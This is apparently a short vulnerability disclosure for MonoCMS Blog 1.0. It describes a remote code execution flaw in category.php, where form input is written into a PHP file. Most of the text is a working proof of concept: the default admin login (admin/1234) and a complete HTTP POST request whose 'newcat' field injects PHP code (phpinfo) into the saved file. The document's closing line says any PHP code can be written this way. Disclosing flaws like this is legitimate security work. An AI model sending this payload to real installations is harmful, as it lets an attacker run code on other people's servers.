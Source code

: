 My env
MonoCMS Blog 1.0

php 5.6.9

Windows

 category rce 
At monofiles/category.php:27, user input was saved to category/[foldername]/index.php causing RCE.

 

First Step:

Login to your account(default:admin/1234) 

 

Send an request:


POST /monofiles/category.php HTTP/1.1
Host: 172.16.105.29
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.105.29
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.105.29/monofiles/category
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MON=r1u4c0k2mv2c222linpoma712m
Connection: close

newcat=test%22%3Bphpinfo%28%29%3Bexit%28%29%3B%2F%2F&foldername=test

 

We can write any php code into index.php



 

 



 
